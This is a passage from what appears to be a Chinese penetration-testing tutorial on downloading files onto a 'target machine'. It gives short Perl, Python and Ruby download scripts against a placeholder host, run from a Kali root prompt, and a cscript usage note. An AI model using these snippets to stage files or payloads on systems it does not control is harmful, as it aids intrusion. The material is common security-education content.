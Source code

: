 在 windows 中 Cscript 指令可以允许你执行 VBS 脚本文件或者对 script 脚本做一些设置。在 windows 7 中这个指令并不是必须要用到。 但是在 windows XP 中需要使用这条指令，如下所示。

`C:> cscript test.vbs`

以下四种语言都不是系统原生脚本，但是如果你的目标机器安装了这些语言，你就可以使用他们来下载文件。

## 3 Perl File Download

Perl 是一门很吊的语言，使用它基本可以实现任何事情，用它实现文件下载也很简单。

    #!perl
    #!/usr/bin/perl
    use LWP::Simple;
    getstore("http://domain/file", "file");

执行脚本文件是这样

    root@kali:~# perl test.pl

## 4 Python File Download

Python 也是很受欢迎的主流脚本语言，代码清晰且简洁。

    #!python
    #!/usr/bin/python
    import urllib2
    u = urllib2.urlopen('http://domain/file')
    localFile = open('local_file', 'w')
    localFile.write(u.read())
    localFile.close()

执行脚本文件是这样

    root@kali:~# python test.py

## 5 Ruby File Download

Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

    #!ruby
    #!/usr/bin/ruby
    require 'net/http'
    Net::HTTP.start("www.domain.com") { |http|
    r = http.get("/file")
    open("save_location", "wb") { |file|
    file.write(r.body)
    }
    }

执行脚本文件是这样

    root@kali:~# ruby test.rb

## 6 PHP File Download

